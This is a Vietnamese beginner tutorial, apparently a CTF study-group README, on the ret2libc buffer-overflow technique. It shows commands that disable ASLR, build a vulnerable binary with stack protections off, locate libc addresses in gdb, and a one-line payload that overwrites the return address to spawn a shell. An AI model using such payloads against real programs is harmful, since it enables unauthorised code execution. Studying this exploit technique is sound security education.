 # Libc là gì?
Để giải thích đơn giản libc là các thư viện chứa các hàm có sẵn để cho chúng ta gọi. Nó được liên kết vào chương trình của chúng ta qua quá trình linker.

![libc](libc.png)

# Vì sao sử dụng ret2libc ?

- Ret2libc còn có tên gọi khác là: Tấn công Arc-Injection là một kỹ thuật khai thác lỗ hổng `buffer-overflow` 

- Ngữ cảnh: việc truyền shellcode đôi khi khó khăn trong quá trình khai thác lỗ hổng `buffer-overflow`
	- Shellcode quá dài không để được trong buffer
	- Stack không cho thực thi shellcode
	- Shellcode quá phức tạp

	=> Chúng ta có thể tận dụng những `code có sẵn` trong chương trình, cụ thể là trong các thư viện C(libc)

- Mục tiêu: Ghi đè return address để điều hướng luồng chương trình về thực thi hàm trong libc 

- Layout của stack khi ta setup ret2libc như hình dưới:

![Layout](layout.png)

# Demo

- Để đơn giản nhất kỹ thuật thì chúng ta cần phải `tắt` ASLR của chương trình:

```bash
	echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```
- Để bật lại thì các bạn chỉ cần sửa 0 thành 2

```bash
	echo 2 | sudo tee /proc/sys/kernel/randomize_va_space
```

- Để compile chạy lệnh:

```bash
	gcc -m32 -fno-stack-protector -mpreferred-stack-boundary=2 -o ret2libc ret2libc.c -no-pie 
```
- Để tìm địa chỉ của hàm system, exit, chuỗi "/bin/sh" thì các bạn làm như câu lệnh bên dưới

```bash
gdb ret2libc
pwndbg> breakpoint main
pwndbg> run
pwndbg> p system
$1 = {int (const char *)} 0xf7e09780 <__libc_system> #địa chỉ hàm system
pwndbg> p exit 
$2 = {void (int)} 0xf7dfc0c0 <__GI_exit> #địa chỉ exit
pwndbg> search "/bin/sh"
libc-2.31.so    0xf7f56363 '/bin/sh' # địa chỉ của chuỗi "/bin/sh" chuỗi này sẽ làm tham số cho system
```
- Tiếp theo chúng ta sẽ thiết kế payload như hình stack layout ở trên

```bash
(python2 -c "print 'A'*40 + '\x80\x97\xe0\xf7' + '\xc0\xc0\xdf\xf7' + '\x63\x63\xf5\xf7' ";cat)|./ret2libc
```
- Khi chạy trên máy của các bạn thì mọi người chỉ cần thay các địa chỉ hàm trên tương ứng với địa chỉ trong máy của mình thì sẽ chạy được.
---
# NOTE

> File trên được compile dưới dạng file 32-bit nên các bạn nào gặp lỗi khi compile chạy thử lệnh dưới đây.

```bash
sudo apt-get install gcc-multilib
```
> Kỹ thuật đã được đơn giản hóa cho người mới, các challenge CTF được chạy trên remote server sẽ khác ví dụ như: phiên bản libc khác, libc được chỉnh sửa, bật ASLR, v.v.. 
---

# Sponsors

<img src="https://github.com/vnPwners/collaborators-and-sponsors/raw/main/self/vnpwners.png" alt="vnPwners" width="64" height="64"/> <img src="https://github.com/vnPwners/collaborators-and-sponsors/raw/main/uit-inseclab/logo_inseclab-03.png" alt="UIT Inseclab" width="64" height="64"/>